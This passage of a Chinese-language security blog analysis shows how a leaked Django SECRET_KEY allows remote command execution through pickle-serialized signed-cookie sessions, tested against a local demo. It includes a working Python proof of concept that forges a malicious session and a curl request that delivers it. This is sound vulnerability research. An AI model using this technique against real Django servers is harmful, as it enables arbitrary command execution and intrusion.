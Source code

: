 将 `demo` 项目跑起来：

    python manage.py runserver 127.0.0.1:8000

这里创建了3个视图 `index`，`admin` 和 `key`，为了测试方便，`http://127.0.0.1:8000/key/` 页面直接输出了该 Django 项目中的 `SECRET_KEY` 值。`http://127.0.0.1:8000/admin/` 页面为一个管理员页面，后端会尝试读取会话信息中 request.session['admin'] 的值，若存在则返回 "Hello admin"，不存在返回 "Get out of here"。

![]({{ site.url }}/public/img/article/2015-09-12-django-command-execution-analysis/4.png)

此处 `SECRET_KEY` 值为：`zur%eblm54)e)ox&-xzbwonmx$=+ijh3dl&6m-mx+1^y(-i09y`

![]({{ site.url }}/public/img/article/2015-09-12-django-command-execution-analysis/5.png)

在用户访问管理页面时，后端尝试读取了 session['admin'] 的值，根据文章第二部分的分析结合此处的模拟环境，我们可以通过得到的 `SECRET_KEY` 来构造一个恶意的序列化字串来执行任意命令。

示例 PoC 如下：

{% highlight python %}
# coding: utf-8
from django.contrib.sessions.serializers import PickleSerializer
from django.core import signing
from django.conf import settings

settings.configure(SECRET_KEY='zur%eblm54)e)ox&-xzbwonmx$=+ijh3dl&6m-mx+1^y(-i09y')  # SECRET_KEY 参数的值为 demo Django 项目的 SECRET_KEY 值


class CreateTmpFile(object):
    def __reduce__(self):
        import subprocess
        return (subprocess.call,
                (['touch',
                  '/tmp/vulnerable'],))


sess = signing.dumps(
    obj=CreateTmpFile(),
    serializer=PickleSerializer,
    salt='django.contrib.sessions.backends.signed_cookies'
)
print sess
{% endhighlight %}

运行该 PoC 后，得到加密后的 session 值：

    gAJjc3VicHJvY2VzcwpjYWxsCnEBXXECKFUFdG91Y2hxA1UPL3RtcC92dWxuZXJhYmxlcQRlhVJxBS4:1Zb63z:AUICT5WAqW3JrFNYpeR0remUBHI

然后直接请求 `http://127.0.0.1:8000/admin/` 并附上相应的 session 值。

    curl http://127.0.0.1:8000/admin/ --cookie "sessionid=gAJjc3VicHJvY2VzcwpjYWxsCnEBXXECKFUFdG91Y2hxA1UPL3RtcC92dWxuZXJhYmxlcQRlhVJxBS4:1Zb63z:AUICT5WAqW3JrFNYpeR0remUBHI"
	
然后查看 `/tmp` 目录，发现成功创建了 `vulnerable` 文件，命令得到了执行：
